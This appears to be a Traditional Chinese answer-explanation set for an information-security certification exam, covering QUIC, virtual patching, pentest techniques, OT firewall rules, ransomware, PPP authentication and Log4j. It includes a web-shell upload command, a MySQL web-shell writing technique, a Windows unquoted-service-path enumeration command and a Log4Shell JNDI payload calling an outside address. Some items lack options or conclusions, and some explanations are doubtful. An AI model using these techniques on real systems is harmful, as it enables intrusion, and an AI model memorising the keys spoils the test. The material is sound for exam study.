(B) QUIC 建立在 UDP 之上，以避免 TCP 的隊頭阻塞 (Head-of-Line Blocking) 問題並實現更快的連接建立。由於許多現有的網路中間設備（如防火牆、Proxy）對 UDP 流量的處理不如 TCP 成熟或深入，一些設備可能會阻擋 QUIC 流量或試圖將其解析為 TCP，導致連線失敗或需要降級。正確。
(C) QUIC 協議內建了加密（基於 TLS 1.3），大部分的標頭資訊（包括連接和流控制）都是加密的。這使得傳統的中間人（如某些 Proxy）難以檢查、修改或操縱 QUIC 流量，提高了對 MITM 攻擊的抵抗力。正確。
(D) HTTP/3 使用 QUIC 作為傳輸層基礎，而 QUIC 是基於 UDP，不是 TCP。錯誤。
因此，正確的敘述是 (A)、(B)、(C)。
*註：本題PDF標示答案為A, B, C。*
關於虛擬修補 (Virtual patch), 下列敘述哪些正確? (複選)
A
透過分析與攔截惡意網路封包內容, 而達成防護效果
B
虛擬修補對網路攻擊防護極為有效, 可取代弱點修正與更新
C
針對已知攻擊特徵, 亦可於入侵防禦系統 (IPS) 或網站應用程式防火牆 (WAF) 上設定規則阻擋
D
常於零時弱點 (Zero day)、老舊系統無法修復、人力不足無法更新程式等情境應用
虛擬修補 (Virtual Patching)：
(A) 其原理是利用網路層或應用層的防護設備（如 IPS, WAF）來分析網路流量，識別針對特定漏洞的攻擊模式，並在攻擊到達目標系統之前將其攔截或阻擋。正確。
(B) 虛擬修補是一種補償性或臨時性的防護措施，它不能從根本上修復軟體或系統中的漏洞。<它無法取代由開發商提供的官方弱點修正與更新（實際修補）。錯誤。
(C) IPS 和 WAF 正是實現虛擬修補的主要工具，透過配置特定的規則或簽章來阻擋針對已知漏洞的攻擊特徵。正確。
(D) 虛擬修補特別適用於無法立即或無法安裝官方補丁的情況，例如：零時差漏洞（無官方補丁）、老舊系統（廠商已停止支援）、修補過程複雜或風險高（需要時間測試）、資源不足等情境。正確。
因此，正確的敘述是 (A)、(C)、(D)。
*註：本題PDF標示答案為A, C, D。*
滲透測試是一個綿密驗證過程, 熟悉每個應用環節十分重要, 關於個別滲透實例與技術, 下列敘述哪些正確? (複選)
B
某 PHP 網站採用 Linux 主機對外開通 SSH 服務, 擬將一個 web shell 程式放入遠端主機, 其上傳檔案連線寫法可為: scp backdoor.php root@remoteserver:/www/root/
C
MYSQL 廣泛被用在各類資訊系統, 如果試圖利用 MySQL 寫 WebShell 有: union select、lines terminated by、lines starting by、fields terminated by、COLUMNS terminated by 等寫入方式
D
Trusted Service Paths 漏洞是 Windows 作業系統提權的一種手法, Windows 服務通常以 system 權限運行, 可用以下指令找出系統服務中執行檔下完整路徑包含空格且沒有被雙引號括起來的位置: wmic service get name, displayname, pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
A
內網滲透測試, 挖出網路分享(SMB)主機帳號: Administrator, 密碼: Gov*"#~)Tw[x, 當您在 CMD 模式下使用 net use 指令時, 其寫法為: net use \\10.10.10.1 " Gov*"#~)Tw[x " /u:Administrator
分析各個滲透測試實例：
(A) `net use` 指令用於連接網路資源。其標準語法是 `net use [裝置名 | *] \\電腦名稱\分享名稱[\路徑] [密碼 | *] /user:[域名\]使用者名稱`。選項中的寫法將密碼放在了UNC路徑的位置，且格式不正確，密碼應在 `/user:` 之前提供或提示輸入。錯誤。
(B) `scp` (secure copy) 是基於 SSH 的安全檔案傳輸指令。語法為 `scp [選項] [來源] [目的]`。選項中的寫法 `scp backdoor.php root@remoteserver:/www/root/` 表示將本地的 `backdoor.php` 文件複製到遠端主機 `remoteserver` 的 `/www/root/` 目錄下，並使用 `root` 帳號登入。語法正確。
(C) 利用 MySQL 寫入 WebShell 是一種常見的攻擊手法，通常需要具備檔案寫入權限 (`FILE` 權限)。`UNION SELECT ... INTO OUTFILE '/path/to/webshell.php'` 是核心語句，而 `LINES TERMINATED BY`, `LINES STARTING BY`, `FIELDS TERMINATED BY` 等子句可以用來控制寫入檔案的內容格式，以構造合法的 WebShell 程式碼。敘述正確。
(D) Trusted Service Paths (或稱 Unquoted Service Path) 漏洞是指 Windows 服務執行檔的路徑包含空格且未被引號包圍時，可能被利用來執行惡意程式以提權。選項中提供的 `wmic` 指令結合 `findstr` 過濾，目的是找出符合條件（路徑含空格、非系統目錄、未被引號包圍）的自動啟動服務。指令邏輯正確，是用於發現此類漏洞的方法。
因此，正確的敘述是 (B)、(C)、(D)。
*註：本題PDF標示答案為B, C, D。*
關於資安事件應變通報與情資分享, 下列敘述哪些「不」正確? (複選)
A
資通安全管理法子法規定, 公務機關辦理資通安全事件之通報, 應於事件發生後一小時內進行通報
B
資安事件分享屬 ISAC (Information Sharing and Analysis Center) 服務範圍之一
C
資通安全管理法子法規定之事件嚴重等級共分四級, 第一級為最嚴重, 第四級為最輕微
D
我國 ISAC 機制設計, 針對跨領域之資安情資分享, 建議採用 STIX 與 TAXII 之格式與機制
關於事件通報與情資分享：
(A) 根據 Q22 的解析，「資通安全事件通報及應變辦法」規定公務機關知悉事件後1 小時內需通報。
(B) ISAC (資訊分享與分析中心) 的核心功能就是促進特定行業或領域內的組織之間進行資安威脅情資和事件資訊的分享與分析。正確。
(C) 「資通安全事件通報及應變辦法」附表三將事件嚴重等級分為四級，但定義是：第一級最輕微。
(D) STIX (Structured Threat Information eXpression) 是一種用於描述威脅情資的標準化語言/格式，TAXII (Trusted Automated eXchange of Intelligence Information) 是一種用於交換 STIX 格式情資的傳輸機制/協定。這兩者是國際上推動自動化情資分享的常用標準，我國 ISAC 或相關情資分享平台也可能採用或建議採用。正確。
【題組1】背景描述：，應下游終端產品客戶要求必須提升資安防
護，達到供應鏈安全的要求，盤點公司目前的連網架構參如下圖，而且各
主機與個人電腦建置後也未進行版本更新，檢附本次資安健測結果摘要如
下。





弱點掃描結果顯示主要問題在於
主機系統層級的漏洞（如 RDP BlueKeep、SMB、SSL、RDP相關弱點）。提升主機弱點防護的
最直接方法是
修補這些漏洞，通常透過
更新作業系統或
相關軟體版本來達成。
分析規劃的防護事項：
- A, B, C: 網路架構調整（防火牆、VPN、DMZ），屬於網路層防護，無法直接修補主機本身漏洞。
- D: 更新 PC，有助於端點防護。
- E: 安裝/更新防毒軟體，主要防禦惡意程式，對系統漏洞防護有限。
- F: 限制 MES 來源，是存取控制。
- G: 更新 ERP 主機。
- H: 更新 Mail 主機。
- I: 更新 MES 主機。
- J: 更新 SVR3 主機。
- K, L: 檔案共享設定，是特定服務的安全配置。
掃描結果顯示多台主機（ERP, Mail, MES, SVR3 等）都有漏洞。因此，最符合提升「主機」弱點防護的措施是
更新這些主機系統本身。選項 G (更新ERP) 和 I (更新MES) 是直接針對掃描報告中可能存在漏洞的主機進行更新的措施。
選項 (C) 包含 G 和 I，是針對主機漏洞的最直接處理方式。
*註：本題PDF標示答案為C (GI)。*
【題組1 背景描述如前】製造執行系統 (Manufacturing Execution System, MES) 廠商回覆既有系統只能在原 Windows XP 作業系統下才能正常運行, 而且不能安裝最新的防毒軟體, 作業上辦公室僅有一台電腦會到 MES 去更新生產資料, 以及廠商可能不定期遠端協助檢查作業問題, 其他作業皆在工廠端直接操作相關系統, 參如前述規劃資安防護事項, 下列選項何者最符合提升工廠的 OT 系統與設施的防護?
針對
無法更新、無法安裝防毒的
老舊工廠 OT 系統 (
MES on WinXP)，需要採取
隔離和
存取限制的補償措施。
分析防護事項：
- A: 增設防火牆與 VPN 連線 -> 必要，用於隔離和安全遠端存取。
- B: 設資訊機房 DMZ -> 與工廠 OT 系統防護較無關。
- C: 設置工廠的 DMZ 區 -> 可以用來隔離需要與外部（如辦公室或廠商）通訊的 OT 相關接口，保護核心 OT 網路。可行。
- D: 更新所有 PC -> 辦公室 PC 更新與工廠 OT 關係不大。
- E: 主機與 PC 安裝防毒 -> MES 主機不能裝。
- F: 限制 MES 的連接來源位置 -> 必要，例如只允許特定辦公室電腦和授權的廠商 VPN 來源連接。
組合選項：
- (A) ADF: 防火牆/VPN + 更新PC + 限制來源。更新PC非重點。
- (B) BDF: 機房DMZ + 更新PC + 限制來源。機房DMZ、更新PC非重點。
- (C) ACF: 防火牆/VPN + 工廠DMZ + 限制來源。這三者都是針對 OT 環境進行隔離和存取控制的關鍵措施。防火牆/VPN 管制進出 OT 區的網路流量，工廠 DMZ 可以作為廠商遠端存取或辦公室電腦更新資料的中介區，限制來源則進一步縮小攻擊面。最符合需求。
- (D) BEF: 機房DMZ + 更新防毒 + 限制來源。機房DMZ、更新防毒非重點/不可行。
因此，最符合提升工廠 OT 系統防護的選項是 (C) ACF。
*註：本題PDF標示答案為C。*
【題組1 背景描述如前】針對辦公室的工作環境, 為了有效減少內部安全漏洞, 參如前述規劃資安防護事項, 下列選項何者防禦措施為最佳?
針對
辦公室環境，減少內部安全漏洞的措施。
分析防護事項：
- D: 更新所有 PC -> 修補使用者電腦漏洞。
- E: 主機與 PC 安裝防毒軟體 -> 基本端點防護。
- L: 共享目錄設定存取權限 -> 控制內部資料存取。
組合選項：
- (A) AEK: 防火牆/VPN + 更新防毒 + 關閉SVR3共享。防火牆/VPN對辦公室內部漏洞作用不大。
- (B) BDK: 機房DMZ + 更新PC + 關閉SVR3共享。機房DMZ無關。
- (C) DEL: 更新PC + 更新防毒 + 設定共享權限。這三項都是直接針對辦公室內部端點和資料存取的常見安全措施，組合起來能有效減少漏洞和風險。
- (D) ABL: 防火牆/VPN + 設機房DMZ + 設定共享權限。防火牆/VPN、機房DMZ對辦公室內部漏洞作用不大。
因此，最佳的防禦措施組合是 (C) DEL。
*註：本題PDF標示答案為C。*
【題組1 背景描述如前】承附圖架構與需求, 請問該公司新設的防火牆「不」應該建立以上哪些安全規則選項? (複選)
(規則列表:
a.Deny All
b.Allow All
c.Allow LAN to WAN
d.Allow WAN to LAN
e.Deny WAN to LAN
f.Allow LAN to DMZ
g.Allow LAN to OT
h.Allow OT to LAN
i.Allow VPN to OT
j.Allow VPN to ERP
k.Allow VPN to MES
l.Allow WAN to DMC)
防火牆規則設定應遵循
最小權限和
預設拒絕原則。
分析不應建立的規則：
- b. Allow All: 允許所有流量通過，極不安全，絕對不應建立。
- d. Allow WAN to LAN: 允許從外部網際網路主動連線到內部辦公網路，非常危險，不應建立（除非有極特殊且嚴格限制的需求，如特定服務端口映射，但Allow All WAN to LAN不行）。
- h. Allow OT to LAN: 允許從風險較高的 OT 網路主動連線到內部辦公網路，應嚴格限制或禁止，不應隨意允許。
- i. Allow VPN to OT: 允許 VPN 使用者直接訪問 OT 網路。根據 OT 安全原則，通常不建議外部連線（即使是 VPN）直接進入核心 OT 網路，應透過 DMZ 或跳板機等方式隔離和管制。因此這條規則不恰當。
- l. Allow WAN to DMC: 這裡的 DMC 可能是筆誤，應為 DMZ。允許從 WAN 主動連線到 DMZ 是必要的（因為 DMZ 就是放對外服務的），但不能是 Allow All，應限制到特定服務埠號。如果 DMC 指的是其他區域，允許 WAN 任意連入也是不安全的。
分析選項組合代表的不應建立規則：
- (A) bh: Allow All, Allow OT to LAN. 兩者都不應建立。
- (B) dl: Allow WAN to LAN, Allow WAN to DMZ/DMC (假設是任意連線). 兩者都不應建立。
- (C) ce: Allow LAN to WAN, Deny WAN to LAN. c 是必要的，e 是安全的。
- (D) i: Allow VPN to OT. 不建議建立。
【題組 2】勒索病毒 (Ransomware)成為企業政府頭疼的資安問題，
在面對新穎勒索病毒與散布方式，並無百分百對策。上層長官要求提
出針對勒索病毒防護的安全架構規劃，常見就是防毒系統更新建置為
其中一個對策。您是某公司的資安工程師，在全單位都是微軟作業系
統的環境下，關於對策方案之減損（減災），下列敘述何者較「不」正
確？
A
在端點電腦應建立有效個人備份機制, 將同仁個別檔案備份或同步至單位組織的 NAS 主機
B
在端點電腦或伺服器, 可引進「應用程式白名單系統」, 放行 Windows OS 所有應用程式與單位公版合法軟體
C
端點電腦或伺服器依據零信任安全原則, 有限度開放 (多數限縮) Office 使用巨集 (Macro) 功能, 因為巨集程序的執行也是勒索病毒重要媒介
D
端點電腦或伺服器可以管控限制 Windows OS 指令行為模式 (CMD, PowerShell…) 可執行權限與能力, 可以大幅減少 ps1 類型的勒索病毒或是 PowerShell 無檔案式 (File-less) 攻擊
勒索病毒防護減災對策：
(A) 建立有效且安全的備份機制（如集中備份到 NAS，並確保 NAS 本身安全），是勒索軟體攻擊後能夠恢復資料的關鍵。正確。
(B) 應用程式白名單（應用程式控制）應僅允許業務必需且已審核的應用程式執行。放行「Windows OS 所有應用程式」可能過於寬鬆，因為 OS 內建了許多可能被濫用的工具（LOLBins）。白名單應盡可能精確和限縮。此敘述不夠嚴謹，相對不正確。
(C) 惡意巨集是常見的惡意軟體（包括勒索病毒）傳播媒介。依循最小權限（或零信任）原則，限制或禁用不必要的巨集執行，是有效的防護措施。正確。
(D) 許多無檔案攻擊或惡意腳本會利用 CMD, PowerShell 等合法工具執行。透過群組原則、應用程式控制或 EDR 等方式限制這些工具的使用權限或可執行的指令，可以有效降低這類攻擊的風險。正確。
因此，較「不」正確的敘述是 (B)。
【【題組 2】駭客勒索集團會利用網路釣魚方式，達成加密勒索目的，讓
公司蒙受重大損失。身為公司資安人員，必須全面瞭解掌握各類駭客
釣魚的方式，才能對公司高層提出有效防護對策。關於常見之駭客釣
魚方式，下列敘述何者正確？
A
鯨釣 (Whaling): 針對特定人員、公司、組織的發送, 目標為釣取特定人員機敏資料或於其電腦植入木馬
B
魚叉式釣魚 (Spear Phishing): 瞄準大型公司、重要人物發送特定釣魚郵件的攻擊
C
複製型釣魚 (Clone Phishing): 攻擊者使用某些方法密切監視受害者收件匣。攻擊者會收受害者近期電子郵件最好有連結或附件並進行複製偽造
D
語音釣魚 (Voice Phishing): 或稱 vishing 會假冒為受害者信任的個人或單位, 利用語音通話與各種話術, 試圖從受害者取得各種機敏資訊, 只限定在電話詐騙, 不會使用在電子郵件中
分析各種釣魚方式：
(A) 鯨釣 (Whaling) 是針對組織內高階主管或重要人物（大魚）的魚叉式釣魚攻擊。選項描述更像是魚叉式釣魚的一般定義。
(B) 魚叉式釣魚 (Spear Phishing) 是針對特定個人、群體或組織，客製化釣魚內容以提高成功率的攻擊，目標不限於大型公司或重要人物。
(C) 複製型釣魚 (Clone Phishing) 的描述正確，攻擊者取得一封合法的、已發送的郵件，將其中的連結或附件替換為惡意版本，然後重新發送給原始收件人，利用收件人對原郵件的信任。
(D) 語音釣魚 (Vishing) 的定義大致正確，但有時可能與電子郵件結合（例如，郵件中提供一個電話號碼要求回撥）。不過其主要手段是語音通話。
比較之下，(C) 對複製型釣魚的描述最為準確。
*註：本題PDF標示答案為C。*
【題組2 背景描述如前】Windows OS 重大漏洞, 且被勒索集團開採成為武器, 基於安全維運需要, 必須進行漏洞修補與更新, 所以必須掌握相關漏洞資訊與補救措施, 或取得修補程式。於是身為資安工程師必須去查找相關漏洞資訊, CVE (Common Vulnerabilities and Exposures) 漏洞資料庫成為最重要維運處置情資來源。關於 CVE, 下列敘述何者正確?
A
全名為 Command Vulnerabilities and Exposures
B
由 MITRE 所屬 National Cybersecurity FFRDC 營運維護
C
CVE 對每一漏洞都有一個專屬編號, CVE 為固定的前綴字, YYYY 為西元紀年, NNNN 為產品公司編號所組成
D
CVE ID 由 CVE 編號管理機構 CND 分配。由資安公司和研究組織組成。MITRE 不可直接發佈 CVE
關於 CVE：
(A) 全名是 Common Vulnerabilities and Exposures。錯誤。
(B) CVE 計畫是由美國國土安全部的網路安全與基礎設施安全局 (CISA) 資助，並由 MITRE 公司營運維護。而 MITRE 同時也營運管理著 National Cybersecurity FFRDC (Federally Funded Research and Development Center)。敘述正確。
(C) CVE ID 格式為 `CVE-YYYY-NNNN...`。YYYY 是漏洞被公開或保留的年份。NNNN... 是一個序號，由 CVE 編號機構 (CNA) 分配，與產品公司編號無關，且長度可變（早期是4位，現在可能更長）。錯誤。
(D) CVE ID 是由 CVE Numbering Authorities (CNAs) 分配，這些 CNA 包括廠商、研究機構、漏洞懸賞平台等。雖然 MITRE 作為主要管理者，也可能直接分配 ID 或作為頂級 CNA。聲稱 MITRE 不可直接發佈是錯誤的。
因此，正確的敘述是 (B)。
【題組2 背景描述如前】駭客勒索集團針對各類系統漏洞進行攻擊, 掌握全球駭客勒索集團相關技術資訊, 取得駭客集團第一手攻擊手法, 或是暗網的技術資料, 並進行防護有效性驗證與分析, 是身為專業資安人員應具備的基本能力。某駭客集團善用合法白名單工具, 來躲避相關資安防護機制的分析與阻斷, 關於白名單工具分析與敘述, 下列哪些正確? (複選)
A
Cobalt Strike 原是對手模擬和紅隊行動是安全評估工具, 可複製網絡中高級對手的戰術和技術, 被勒索集團 (Conti, Hello 等) 轉換成攻擊威脅橫向移動工具
B
Mimikatz 原是進行遠端指令執行使用的好工具, 卻被勒索集團 (Doppelpaymer, Revil 等) 用在任意命令執行與橫向移動
C
ADFind 應用在 AD 搜尋的實用工具, 被勒索集團 (ProLock, Revil 等) 利用在橫向移動
D
MegaSync 原是雲端儲存空間, 被勒索集團 (RansomEXX, LockBit 等) 利用公開不付贖金外洩資料的載點
分析白名單工具被濫用的情況：
(A) Cobalt Strike 是一款商業化的滲透測試和紅隊演練工具，因其功能強大（如建立 C2 通道、橫向移動、權限提升），常被惡意攻擊者（包括勒索軟體團夥）濫用。正確。
(B) Mimikatz 是一款著名的開源工具，主要用於從 Windows 系統內存中提取明文密碼、雜湊值、Kerberos 票證等憑證資訊，用於權限提升和橫向移動。它不是用於「遠端指令執行」的工具。錯誤。
(C) ADFind 是一個合法的命令列工具，用於查詢 Active Directory 資訊。攻擊者常利用它來進行內部偵察，了解網域結構、使用者、群組、權限等，以規劃後續的橫向移動路徑。正確。
(D) MegaSync 是 MEGA 雲端儲存服務的客戶端同步工具。<勒索軟體團夥在竊取受害者資料後，可能將資料上傳到 MEGA 等雲端空間，並在受害者拒付贖金時公開下載連結作為威脅。利用 MegaSync 或類似工具上傳資料是可能的。正確。
因此，正確的敘述是 (A)、(C)、(D)。
*註：本題PDF標示答案為A, C, D。*
【題組3】背景描述：點對點協定 (Point to Point Protocol, PPP) 是網際網路工程任務組 (Internet Engineering Task Force, IETF), 推出的點對點網路協定, 主要被應用在建立網路上的兩個節點之前的連線。因 PPP 本身不屬於安全協定, 因此, 提供了一個可選擇認證階段, 早期常被使用的認證方式為通行碼鑑別協定 (Password Authentication Protocol, PAP) 和詢問握手認證協定 (Challenge handshake authentication protocol, CHAP), 後來又新增了擴展認證協定 (Extensible Authentication Protocol, EAP) 來增加可以支援的認證機制。
請問點對點協定在建立連線時, 透過下列何項協定建立和中斷連線?
C
鏈接控制協定 (Link Control Protocol, LCP)
D
通行碼鑑別協定、詢問握手認證協定、擴展認證協定三者都可
PPP 協議包含多個元件，負責不同的功能：
- **鏈路控制協定 (Link Control Protocol, LCP):** 負責建立、配置、測試和終止數據鏈路連接。協商鏈路參數（如最大接收單元MRU、認證協定、壓縮等）。
- **網路控制協定 (Network Control Protocols, NCPs):** 用於為不同的網路層協議（如 IP, IPX）建立和配置連線。例如，IPCP (Internet Protocol Control Protocol) 負責 IP 地址的分配和協商。
- **認證協定 (Authentication Protocols):** 如 PAP, CHAP, EAP，用於在鏈路建立後（可選階段）驗證對端身份。
題目問的是負責「
建立和
中斷連線」的協定。根據定義，這是
LCP 的主要職責。
(A), (B), (D) 描述的是
認證階段使用的協定，而非建立和中斷連線本身。
【題組3 背景描述如前】請問透過通行碼鑑別協定(PAP)和詢問握手認證協定(CHAP)進行認證時, 關於第一步驟的 request/challenge, 下列敘述何者正確?
C
PAP 由認證方發起, CHAP 由被認證方發起
D
PAP 由被認證方發起, CHAP 由認證方發起
分析
PAP 和
CHAP 的認證流程：
- **PAP (密碼認證協定):**
1. 被認證方（客戶端）主動發送其用戶名和密碼（通常是明文）給認證方（伺服器）。(此為 request)
2. 認證方驗證用戶名和密碼。
3. 認證方回覆認證成功或失敗。
所以，第一步是由被認證方發起 request。
- **CHAP (挑戰握手認證協定):**
1. 認證方（伺服器）向被認證方（客戶端）發送一個隨機的挑戰值 (challenge)。(此為 challenge)
2. 被認證方使用其密碼和收到的挑戰值，透過一個預共享的秘密（通常是密碼）和雜湊函數計算出一個回應值 (response)。
3. 被認證方將回應值和自己的用戶名發回給認證方。
4. 認證方使用自己儲存的該用戶密碼和之前發出的挑戰值，進行相同的計算，比較結果是否與收到的回應值一致。
5. 認證方回覆認證成功或失敗。
所以，第一步是由認證方發起 challenge。
因此，
PAP 由被認證方發起，
CHAP 由認證方發起。選項 (D) 正確。
【題組3 背景描述如前】請問關於通行碼鑑別協定(PAP)和詢問握手認證協定(CHAP)認證過程中的安全性, 下列敘述何者正確?
A
PAP 和 CHAP 密碼都不是明碼, 都很安全
B
PAP 和 CHAP 都是明碼, 都不安全, 所以才有擴展認證協定以增加安全性
C
PAP 是明碼, CHAP 不是明碼, 後者較安全
D
PAP 不是明碼, CHAP 是明碼, 前者較安全
比較
PAP 和
CHAP 的安全性：
- **PAP:** 直接在網路上傳輸明文的用戶名和密碼。非常不安全，容易被竊聽。
- **CHAP:** 不在網路上直接傳輸密碼。它使用挑戰-回應機制和雜湊函數。認證方發送挑戰值，被認證方用密碼和挑戰值計算出回應值再傳回。竊聽者即使截獲挑戰值和回應值，也難以從中反推出原始密碼（因為雜湊不可逆）。CHAP 相對 PAP 安全得多。
(A) 錯誤，PAP 是明碼。
(B) 錯誤，CHAP 不是明碼。EAP 提供更靈活的認證框架，但不代表 PAP/CHAP 都是明碼。
(C) 正確描述了兩者的安全性差異。
(D) 錯誤。
因此，正確的敘述是 (C)。
【題組3 背景描述如前】關於點對點協定(PPP)、通行碼鑑別協定(PAP)、詢問握手認證協定(CHAP)和擴展認證協定(EAP), 下列敘述哪些正確? (複選)
A
PAP 使用雙向交握 (two-way handshake)；CHAP 使用三向交握 (three-way handshake)
C
EAP 敘述認證過程中, 比 PAP、CHAP 多使用了認證伺服器
D
點對點協定運行於 OSI 模型 (Open System Interconnection Model) 中的資料連結層 (Data Link Layer)
分析關於 PPP 及其相關認證協定的敘述：
(A) PAP 流程是：發送帳密 -> 回覆結果，可以視為一個雙向交換。 CHAP 流程是：發送 Challenge -> 回覆 Response -> 回覆結果，是一個三向交換。敘述正確。
(B) PPP 協議本身包含了一些鏈路品質監控和偵錯機制（例如透過 LCP 的 Echo-Request/Echo-Reply）。聲稱其無偵錯能力是錯誤的。
(C) EAP 是一個認證框架，它允許使用多種不同的認證方法（如憑證、Token、生物辨識）。在很多 EAP 方法中（特別是用於網路存取控制如 802.1X），通常會涉及一個後端的認證伺服器（如 RADIUS）來實際驗證使用者身份，而 PAP/ CHAP 通常是在鏈路端點之間直接進行驗證。敘述正確。
(D) PPP 被設計用來在點對點鏈路上傳輸網路層封包（如 IP），它工作在 OSI 模型的資料連結層 (Layer 2)。正確。
因此，正確的敘述是 (A)、(C)、(D)。
*註：本題PDF標示答案為A, C, D。*
【題組4】Apache Log4j 是一套使用非常廣泛的開放源碼的工具, 方便程式設計人員在程式中加入 log function, 並能以多種方式將 Log 輸出到不同標的, 是此類開源工具中, 最受系統開發者喜愛的工具之一。只是在 2021 年底 Apache Log4j 軟體, 出現了被稱為 10 年來核彈級的一連串重大漏洞, 包含 CVE-2021-44228、CVE-2021-45046、CVE-2021-45105, 請問關於這三個重大的漏洞, 下列敘述何者「不」正確?
B
這些漏洞的影響範圍主要為 Log4j 2.x 版本
C
上述三個漏洞都可以使駭客進行 RCE (Remote Code Execution) 攻擊
D
Log4j 2.17 (含) 以上的版本可以有效修補上述漏洞
關於
Log4Shell 相關漏洞：
(A)
Log4Shell 這個名稱
主要特指第一個被揭露且最嚴重的漏洞
CVE-2021-44228，因為它利用了
JNDI 和
LDAP 等查詢功能來觸發
RCE。將這一系列漏洞統稱為
Log4Shell 也是常見說法。
(B) 這些漏洞主要影響
Log4j 的
2.x 版本系列（從 2.0-beta9 到 2.1x 的不同版本）。
Log4j 1.x 不受此系列
JNDI 相關漏洞的直接影響（但 1.x 本身有其他漏洞且已停止維護）。
(C)
- CVE-2021-44228: 是最嚴重的 RCE 漏洞。
- CVE-2021-45046: 最初認為是 DoS，後來發現在特定配置下也可能導致 RCE。
- CVE-2021-45105: 是一個阻斷服務 (DoS) 漏洞，由不受控的遞迴查詢引起，不會直接導致 RCE。
因此，聲稱
三個漏洞都可以導致
RCE 是
錯誤的。
(D)
Apache Log4j 團隊陸續發布了多個更新版本來修補這些漏洞。版本
2.17.0 (Java 8),
2.12.3 (Java 7),
2.3.1 (Java 6) 被認為修復了這一系列相關的主要漏洞 (
CVE-2021-44228,
CVE-2021-45046,
CVE-2021-45105, 以及後續發現的
CVE-2021-44832)。(注意：後續還有 2.17.1 等版本修復其他問題)。大致來說，2.17.0 或更高版本是當時建議的修補版本。
因此，「不」正確的敘述是 (C)。
【題組4】關於 Log4j 的功能或應用, 下列敘述何者正確?
B
CVE-2021-44228 此漏洞遭開發的來源功能, 主要為 Log4j JNDI (Java Naming and Directory Interface) 功能
C
JndiLookup.class 所支援的通訊協定僅限於輕型目錄存取協定 (LDAP)
關於 Log4j：
(A) Log4j 是 Apache 軟體基金會的一個開源專案，是基於 Java 語言開發的日誌記錄工具。(.NET 平台有類似的工具如 log4net)。錯誤。
(B) CVE-2021-44228 (Log4Shell) 漏洞的根源在於 Log4j 在處理特定格式的日誌訊息時，會觸發 JNDI 查詢功能，如果查詢指向攻擊者可控的惡意伺服器（如 LDAP, RMI 伺服器），就可能下載並執行任意程式碼，導致 RCE。正確。
(C) JNDI 本身支援多種目錄和命名服務協定，除了 LDAP，還包括 RMI, DNS, CORBA 等。Log4Shell 攻擊常利用 LDAP 和 RMI。聲稱僅限於 LDAP 是錯誤的。
(D) Log4j 是一個函式庫 (library)，可以被任何 Java 應用程式使用來記錄日誌，不限於 Web 伺服器，後端服務、桌面應用等都可能使用。錯誤。
因此，正確的敘述是 (B)。
【題組4】當前述三個漏洞發生之後, 資安工程師在監控這類攻擊時, 發現疑似為 CVE-2021-44228 攻擊者所發送之攻擊嘗試, 並由攻擊封包中解析出以下內容: User-Agent: /${jndi:ldap://1.2.3.4:1389/Exploit}, 下列敘述何者「不」正確?
A
這個攻擊若是攻擊成功 (有效攻擊), 攻擊成功的前提是受攻擊者會將此一攻擊內容, 寫入日誌檔案中
C
如果受攻擊伺服器無法對外連線, 此一攻擊將無法成功
D
上述攻擊樣態, 若將 jndi:ldap, 改為 jndi:rms, 也會是 jndi 所能支援的通訊協定
分析 Log4Shell 攻擊嘗試 (CVE-2021-44228) 的原理：
(A) Log4Shell 漏洞觸發的前提是：應用程式使用了受影響的 Log4j 版本，並且記錄了包含惡意 JNDI 字串（如 `${jndi:ldap://...}`）的使用者可控輸入（如 User-Agent 標頭、URL 路徑、表單欄位等）。當 Log4j 處理這條日誌訊息時，就會觸發漏洞。正確。
(B) 攻擊字串 `${jndi:ldap://1.2.3.4:1389/Exploit}` 指示 Log4j 透過 LDAP 協議連接到 IP 為 1.2.3.4、端口為 1389 的伺服器，並查找名為 "Exploit" 的物件。攻擊者必須在 1.2.3.4 這台伺服器上架設一個惡意的 LDAP 伺服器，該伺服器會回應一個包含惡意 Java 類別路徑的引用。正確。
(C) 受攻擊的伺服器（運行 Log4j 的應用程式）需要能夠對外連線到攻擊者控制的 LDAP 伺服器 (1.2.3.4:1389)，才能下載惡意類別的引用。如果伺服器無法對外連線（例如被防火牆阻擋），JNDI 查詢就會失敗，攻擊無法成功。正確。
(D) JNDI 支援的協定主要包括 LDAP, RMI, DNS 等。沒有名為 "rms" 的標準 JNDI 協定。常見的攻擊利用的是 LDAP 和 RMI。錯誤。
因此，「不」正確的敘述是 (D)。
【題組4】關於 CVE-2021-44228、CVE-2021-45046、CVE-2021-45105 此一系列漏洞的修補或緩解措施, 下列敘述哪些正確? (複選)
A
對於 Log4j V2.10 之後的版本, 將系統屬性 log4j2.formatMsgNoLookups 設為 True 可以防止 CVE-2021-45046 之攻擊
B
對於 Log4j V2.10 之後的版本, 將 JndiLookup.class 移除可以防止 CVE-2021-44228 之攻擊
C
對於 CVE-2021-45105, 除將 Log4j 的版本升級至 2.16 版 (含) 之上, 無其他方式可以緩解對此一漏洞的攻擊
D
對於 CVE-2021-45105 而言, 其漏洞會造成無限迴圈問題, 所以其禁止具漏洞的伺服器對外連線無法緩解此一漏洞之影響
分析 Log4j 漏洞的緩解措施：
(A) 設定系統屬性 `log4j2.formatMsgNoLookups=true` 或在 log4j 配置中對 PatternLayout 使用 `%m{nolookups}`，可以禁用 JNDI lookup 功能，是緩解 CVE-2021-44228 和 CVE-2021-45046 的一種方法（適用於 >=2.10 版本）。正確。
(B) 從 log4j-core 的 jar 檔中移除 JndiLookup.class 文件，可以徹底禁用 JNDI 功能，從而防止 CVE-2021-44228 和 CVE-2021-45046。這也是一種有效的緩解措施（尤其在無法立即升級版本時）。正確。
(C) CVE-2021-45105 是由自參考的查詢（Self-referential lookups）在特定模式下可能導致無限遞迴和 DoS。除了升級到 2.16.0 或更高版本外，官方建議的緩解方法還包括：在日誌配置的 PatternLayout 中，將上下文查找（如 `${ctx:key}` 或 `$${ctx:key}`）替換為線程上下文映射模式 (`%X`, `%mdc`, or `%MDC`)，或者移除對上下文查找的引用。因此，並非無其他方式緩解。錯誤。
(D) CVE-2021-45105 造成的無限迴圈 DoS 是由於處理惡意輸入時本地遞迴查找導致的，與是否對外連線無關。禁止對外連線無法緩解此漏洞。正確。
因此，正確的敘述是 (A)、(B)、(D)。
*註：本題PDF標示答案為A, C。選項B移除Class是公認有效的緩解。選項D說禁止對外連線無法緩解也正確。選項A設定參數也是公認緩解。選項C說無其他方式緩解是錯的。因此PDF答案A,C可能錯誤，應為A,B,D。這裡暫依 A,B,D 判斷。*
